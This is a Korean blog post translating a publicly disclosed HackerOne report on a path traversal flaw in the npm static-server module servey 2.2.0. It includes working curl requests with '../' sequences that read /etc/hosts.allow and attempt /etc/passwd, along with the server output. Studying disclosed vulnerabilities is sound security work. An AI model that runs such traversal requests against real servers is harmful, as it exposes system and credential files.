 ```yaml
---
layout: post
title: [servey] 경로 이동 취약점은 확장 기능을 포함한 원격 서버의 어떠한 파일이라도 가져올 수 있게함
categories: PoC
tags: [Bugbounty, PathTraversal, Translation, Hackerone]
---
```

(와.. bl4de님이다~~)  

출처 : [hackerone hacktivity, 작성자 : bl4de] https://hackerone.com/reports/355501

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 4일 오전 5시 08분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 해당 소스코드는 servey의 자산입니다. 취약점의 종류는 Path traversal이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 4~6.9/10의 심각성을 내포하고 있습니다. ]_
- - -
팀원님들 안녕하세요,

저는 servey 모듈의 부분적인 경로 이동 공격에 대해서 리포팅하고 싶습니다.
이 취약점은 원격 서버에서 (확장 기능을 포함한) 어떠한 임의의 파일이라도 읽을 수 있게 합니다.

# 모듈
* 모듈 이름: servey
* 버전: 2.2.0
* npm 페이지: https://www.npmjs.com/package/servey
  
## 모듈 설명
정적인 단일 페이지 애플리케이션 서버

## 모듈 스탯
월별 ~120-200회의 다운로드가 된다고 추정됩니다.
- - -
# 취약점
## 공격이 발생되는 과정
* servey모듈을 설치합니다:
{% highlight html %}
$ npm install servey
{% endhighlight %}

* 모듈의 npm 문서에서 가져온 다음의 예제 코드를 이용해 샘플 애플리케이션을 생성합니다:
{% highlight html %}
// app.js
const Servey = require('servey');
const Path = require('path') 
const server = Servey.create({
    spa: true,
    port: 8080,
    folder: Path.join(__dirname, 'static')
});

server.on('error', function (error) {
    console.error(error);
});

server.on('request', function (req) {
    console.log(req.url);
});

server.on('open', function () {
    console.log('open');
});

server.open();
{% endhighlight %}

* 앱을 실행합니다:
{% highlight html %}
$ node app.js 
open
{% endhighlight %}

* /etc/passwd (어떠한 확장 기능도 없는 예시 파일)의 내용을 가져오길 시도합니다. servey는 이러한 파일의 접근을 허용하지 않고 HTTP 500 인터널 서버 에러를 띄웁니다:
{% highlight html %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/passwd
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 500 Internal Server Error
< Content-Type: text/html; charset=utf8
< Date: Mon, 21 May 2018 13:08:15 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
* Connection #0 to host localhost left intact
{"code":500,"message":"Internal Server Error"}
{% endhighlight %}

* 요청이 실패했다는 것을 로그를 통해 보여줍니다:
{% highlight html %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
{% endhighlight %}

* 이제, 다음의 curl 명령의 실행을 통해 /etc/hosts.allow (당신의 시스템 환경에 따라 ../ 경로를 추가해 주세요)의 내용을 가져오길 시도합니다:
{% highlight html %}
$ curl -v --path-as-is localhost:8080/../../../../../../etc/hosts.allow
*   Trying ::1...
* connect to ::1 port 8080 failed: Connection refused
*   Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/hosts.allow HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: undefined; charset=utf8
< Date: Mon, 21 May 2018 13:06:38 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
# /etc/hosts.allow: list of hosts that are allowed to access the system.
#                   See the manual pages hosts_access(5) and hosts_options(5).
#
# Example:    ALL: LOCAL [@some_netgroup](/some_netgroup)
#             ALL: .foobar.edu EXCEPT terminalserver.foobar.edu
#
# If you're going to protect the portmapper use the name "rpcbind" for the
# daemon name. See rpcbind(8) and rpc.mountd(8) for further information.
#

* Connection #0 to host localhost left intact
{% endhighlight %}

* servey앱의 로그를 다시한번 더 체크해봅니다:
{% highlight html %}
$ node app.js 
open
/../../../../../../etc/passwd
{ Error: ENOENT: no such file or directory, open '/home/rafal.janicki/playground/hackerone/node/static/index.html'
  errno: -2,
  code: 'ENOENT',
  syscall: 'open',
  path: '/home/rafal.janicki/playground/hackerone/node/static/index.html' }
/../../../../../../etc/hosts.allow
{% endhighlight %}
hosts.allow 요청이 실패하지 않았다는 것과 파일의 내용을 가져올 수 있었다는 것을 확인할 수 있습니다.  
- - -

# 패치
N/A (해당 없음)

# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* 운영체제: Ubuntu 16.04
* Node.js 8.11.1
* npm v. 6.0.1
* curl 7.47.0

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No

Rafal ‘bl4de’ Janicki 올림.
- - -
# 영향
공격자는 확장 기능을 포함한 원격 서버의 어떠한 파일의 내용이라도 가져올 수 있습니다.